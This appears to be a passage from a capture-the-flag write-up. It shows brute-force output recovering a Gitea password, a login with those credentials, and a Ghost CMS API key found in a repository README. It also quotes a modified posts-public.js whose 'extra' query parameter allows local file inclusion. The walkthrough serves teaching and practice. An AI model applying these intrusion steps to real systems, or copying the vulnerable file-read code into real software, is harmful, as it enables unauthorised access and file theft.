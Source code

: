 ```console
root@kali:~# python3 brute.py
Passwd: s
Passwd: sz
Passwd: szr
Passwd: szrr
Passwd: szrr8
Passwd: szrr8k
Passwd: szrr8kp
Passwd: szrr8kpc
Passwd: szrr8kpc3
Passwd: szrr8kpc3z
Passwd: szrr8kpc3z6
Passwd: szrr8kpc3z6o
Passwd: szrr8kpc3z6on
Passwd: szrr8kpc3z6onl
Passwd: szrr8kpc3z6onlq
Passwd: szrr8kpc3z6onlqf
szrr8kpc3z6onlqf
```

## 5. Exploring Gitea with discovered credentials

Sign in to Gitea with `gitea_temp_principal`:`szrr8kpc3z6onlqf`:

![image](https://github.com/user-attachments/assets/85ac0ad4-2543-4c93-b1e4-0a22b2a2a321)

The `README` for `blog` repository reveals important clues

![image](https://github.com/user-attachments/assets/df3e7953-a711-4f53-8b1e-a5a38a17cfb3)

- The blog uses Ghost CMS, which is running in a Docker container
- The blog integrates with intranet via an API key named `DEV_INTRANET_KEY`, stored as an environment variable
- The public API key for Ghost is: `a5af628828958c976a3b6cc81a`
- The `posts-public.js` for Ghost CMS is modified

### 5.1. Exploiting LFI for the modified Ghost CMS file

Analyzing `posts-public.js` reveals a possibility for LFI via the query parameter `extra`:

```js
        async query(frame) {
            const options = {
                ...frame.options,
                mongoTransformer: rejectPrivateFieldsTransformer
            };
            const posts = await postsService.browsePosts(options);
            const extra = frame.original.query?.extra;
            if (extra) {
                const fs = require("fs");
                if (fs.existsSync(extra)) {
                    const fileContent = fs.readFileSync("/var/lib/ghost/extra/" + extra, { encoding: "utf8" });
                    posts.meta.extra = { [extra]: fileContent };
                }
            }
            return posts;
        }
```
